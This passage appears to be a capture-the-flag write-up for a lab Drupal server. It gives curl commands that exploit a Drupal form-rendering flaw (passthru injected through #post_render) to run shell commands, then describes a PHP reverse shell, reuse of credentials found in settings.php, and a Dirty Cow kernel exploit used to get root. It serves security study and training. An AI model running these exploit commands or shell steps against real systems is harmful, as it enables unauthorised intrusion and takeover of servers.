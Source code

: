 1. [#post_render]
2. [#pre_render]
3. [#access_callback]
4. [#lazy_builder]

To exploit, the following set of 2 commands can be executed to get the result of a bash command on the server &rarr;

```
## 1st command - payload is "which nc" to check if nc is there on the system.
url_pre="http://192.168.56.48:1898/?q=user/password&name"
url_post="$url_pre\[%23post_render\]\[\]=passthru&name\[%23type\]=markup&name\[%23markup\]="
final_url="$url_post=which+nc"
form_data=$( curl -k -s $(echo final_url) --data "form_id=user_pass&_triggering_element_name=name")
form_build=$(echo form_data | grep form_build_id)
form_build_id=$(echo form_build | sed -E 's/.*name="form_build_id" value="(.*)".*/\1/' )

## 2nd command, which returns the result of the above payload.
curl -k -i "http://192.168.56.48:1898/?q=file/ajax/name/%23value/${form_build_id}" \
    --data "form_build_id=${form_build_id}"
```

This gave an indication that nc was present on the system, therefore a reverse shell could be generated for it.

However, an nc shell did not work. It is known that there is php on the system. Therefore, after checking the presence of wget, the php reverse shell from pentest monkey is sent to the server. With a local netcat listener and navigating to the reverse shell path, a shell with the user `www-data` is obtained.

## Privilege Escalation

### User

Looking at `/etc/passwd`, a number of users are determined. SetUID binaries do not have any interesting information. The `/etc/passwd` contains the hashed password for the `root` user. This was sent to john for a cracking attempt, which did not reveal anything.

Listing the `/home` directory shows the presence of a user `tiago`. Google-fu for default drupal config files reveals the location as `settings.php` file inside the `sites/default/` directory. This reveals the mysql database connection credentials as `drupaluser:Virgulino`. Trying the password for the user `tiago` successfully logs in. This gives the user flag.

### Root

The `tiago` user is not allowed to run sudo either. Therfore, looking at other information and running the linux enumeration script. Looking at the kernel version, which is 4.4.0, Google-fu points to the presence of the Dirty Cow exploit.

Therefore, looking at PoCs from [Dirty Cow PoCs](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs), choosing the `cowroot.c` payload to get the root shell. Therefore, compiling for 32 bit version to match target. Compiled it with gcc and sent the binary to the target machine via wget.

Executing this gives the root shell and thus the root flag.

---